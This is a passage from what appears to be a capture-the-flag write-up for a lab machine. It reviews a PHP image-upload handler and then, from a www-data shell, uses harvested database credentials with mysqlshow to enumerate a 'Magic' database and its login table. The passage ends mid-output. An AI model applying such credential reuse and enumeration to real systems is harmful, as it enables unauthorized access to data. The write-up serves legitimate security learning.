 ```php
        echo "<script>alert('Detected \"\<\?\". PHP is not allowed!')</script>";
        $uploadOk = 0;
    }*/

    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk === 1) {
        if (move_uploaded_file($_FILES["image"]["tmp_name"], $target_file)) {
            echo "The file " . basename($_FILES["image"]["name"]) . " has been uploaded.";
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
    }
}
?>
```
This pretty much just confirms the functaionality of the image upload, using exif_imagetype to check the file header along with the extension.
  
Moving on from here, I can probably log in to the database somehow using those creds and see whats happening in there.
```bash
www-data@ubuntu:/usr/bin$ ls /usr/bin | grep mysql
mysql_config_editor
mysql_embedded
mysql_install_db
mysql_plugin
mysql_secure_installation
mysql_ssl_rsa_setup
mysql_tzinfo_to_sql
mysql_upgrade
mysqladmin
mysqlanalyze
mysqlbinlog
mysqlcheck
mysqld_multi
mysqld_safe
mysqldump
mysqldumpslow
mysqlimport
mysqloptimize
mysqlpump
mysqlrepair
mysqlreport
mysqlshow
mysqlslap
www-data@ubuntu:/usr/bin$ mysqlshow --user=theseus --password=iamkingtheseus Magic
<show --user=theseus --password=iamkingtheseus Magic
mysqlshow: [Warning] Using a password on the command line interface can be insecure.
Database: Magic
+--------+
| Tables |
+--------+
| login  |
+--------+
www-data@ubuntu:/usr/bin$ mysqlshow --user=theseus --password=iamkingtheseus Magic login
<-user=theseus --password=iamkingtheseus Magic login
mysqlshow: [Warning] Using a password on the command line interface can be insecure.
Database: Magic  Table: login
+----------+--------------+-------------------+------+-----+---------+----------------+---------------------------------+---------+
| Field    | Type         | Collation         | Null | Key | Default | Extra          | Privileges                      | Comment |
+----------+--------------+-------------------+------+-----+---------+----------------+---------------------------------+---------+
```